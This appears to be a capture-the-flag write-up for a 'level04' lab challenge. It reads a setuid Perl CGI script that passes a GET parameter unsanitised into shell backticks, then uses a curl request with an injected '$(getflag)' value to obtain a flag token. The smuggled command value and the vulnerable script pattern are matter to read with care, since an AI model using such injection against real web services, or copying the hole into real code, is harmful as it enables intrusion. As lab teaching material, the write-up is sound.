 ## Step 1: Identifying the User

We begin by checking our current user informations:

```bash
$ id
uid=2004(level04) gid=2004(level04) groups=2004(level04),100(users)
```

This shows that we are operating as the user `level04`.

---

## Step 2: Searching for Files

Next, let's check what files are in our `/home` directory:

```bash
$ ls -la
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl

$ file level04.pl
level04.pl: setuid setgid a /usr/bin/perl script, ASCII text executable
```
We find perl script owned by `flag04` with read and executable permissions for our user. 

---

## Step 3: Read the source code

```bash
$ bat level04.pl
```

```pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
This script uses CGI, which means that by connecting to the machine's IP address and specified port, we can interact with it. The script executes the first parameter received from a GET request with elevated privileges.

---

## Step 4: Exploiting the Binary to Get a  SubShell

To get a subshell, we can send a GET request to the script with the appropriate parameters. Here is how you can do it:
```bash
$ curl 192.168.234.77:4747?x='$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
---

And there you have it, the token is `ne2searoevaevoem4ov4ar8ap`.
